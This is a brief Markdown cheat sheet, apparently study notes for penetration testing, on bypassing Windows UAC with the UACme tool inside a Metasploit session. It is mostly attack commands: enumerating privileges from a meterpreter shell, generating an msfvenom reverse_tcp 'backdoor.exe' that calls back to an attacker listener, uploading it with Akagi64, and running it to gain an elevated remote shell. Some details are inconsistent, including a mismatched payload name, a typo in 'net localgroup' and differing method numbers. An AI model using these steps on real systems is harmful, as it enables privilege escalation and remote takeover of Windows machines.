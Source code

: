 # Bypassing UACs

**Tool** - UACme  
https://github.com/hfiref0x/UACME

You will need access to a user account that is part of the local administrators group on a Windows system  

1. Get a meterpreter shell before running this tool
2. Do a ```sysinfo``` to gather system information
3. migrate to explorer process ```pgrep explorer``` and then ```migrate (number)```
4. ```getuid``` -- gets user ID
5. ```getprivs``` -- gets privileges
6. open a shell session with ```shell```
7. ```net user```
8. ```net local group administrators```

### UACme
1. Generate an MSFvenom payload ```msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.4.8 LPORT=1234 -f exe > backdoor.exe```
2. Setup Listener ```use multi/handler```
3. set payload ```set payload windows/meterpreter_reverse_tcp```
4. Create temp folder on C:\
5. Upload malicious file ```upload backdoor.exe```
6. Upload UACme ```upload /root/desktop/tools/UACme/Akagi64.exe```
7. Open shell session ```shell```
8. ```.\Akagi64.exe 23 C:\Temp\backdoor.exe```
9. This will then connect to the TCP listener

**Key 33 is typically the go to key in UACme when testing against Windows 10**
